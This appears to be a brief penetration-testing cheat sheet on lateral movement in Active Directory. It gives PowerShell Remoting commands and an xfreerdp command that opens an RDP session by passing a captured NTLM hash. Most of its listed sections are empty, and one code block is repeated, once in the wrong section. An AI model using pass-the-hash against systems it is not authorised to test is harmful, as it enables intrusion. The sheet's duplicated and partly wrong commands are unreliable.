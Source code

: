 # Active Directory Lateral Movement

- Windows Services
- WinRM
- PsExec
- RDP
- WMI
- DCOM
- Webclient
- CrackMapExec
- MSSQL


## Windows Services



## PowerShell Remoting
Enable PowerShell Remoting on current Machine (Needs Admin Access)

```
Enable-PSRemoting
```

Entering or Starting a new PSSession (Needs Admin Access)

```
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

```
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

## Lateral Movement usind RDP
If we have a NTLM hash we can have an RDP session

### xFreeRDP

```
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```


```
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```





